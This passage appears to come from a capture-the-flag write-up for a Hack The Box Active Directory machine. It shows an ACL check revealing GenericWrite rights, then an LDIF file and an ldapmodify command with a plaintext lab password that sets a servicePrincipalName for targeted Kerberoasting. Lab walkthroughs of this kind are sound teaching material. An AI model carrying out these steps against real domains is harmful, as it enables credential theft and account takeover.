 > There is a user `Ethan`. Using the same `PowerShell` script I will check the `ACL` access rights of the user `Emily` over `Ethan`:

```bash

ActiveDirectoryRights : GenericWrite
InheritanceType       : All
ObjectType            : 00000000-0000-0000-0000-000000000000
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : None
AccessControlType     : Allow
IdentityReference     : ADMINISTRATOR\emily
IsInherited           : False
InheritanceFlags      : ContainerInherit
PropagationFlags      : None

```
> We have `Generic Write` rights over user `Ethan`.

---

**Note:** `Generic Write` - allows the user to edit some attributes of objects.

---

> I use the `T1558.003 - Kerberoasting` technique from the `Credential Access` tactic.

> To implement this technique, I will create a record in the `servicePrincipalName` attribute for the user `Ethan Hunt`.

> I will create a `.ldif` file with the content for modifying an object in the system:

```bash

dn: CN=Ethan Hunt,CN=Users,DC=administrator,DC=htb
changetype: modify
add: servicePrincipalName
servicePrincipalName: http/example.com

```
---

**Note:** The entry in `servicePrincipalName` can be anything, even a non-existent site (example.com). For further actions, this is not important.

---

> Modify the `servicePrincipalName` attribute of user `Ethan Hunt` via `ldapmodify`:

```bash

ldapmodify -H ldap://administrator.htb -D 'emily@administrator.htb' -w 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb' -f spn.ldif

modifying entry "CN=Ethan Hunt,CN=Users,DC=administrator,DC=htb"

```
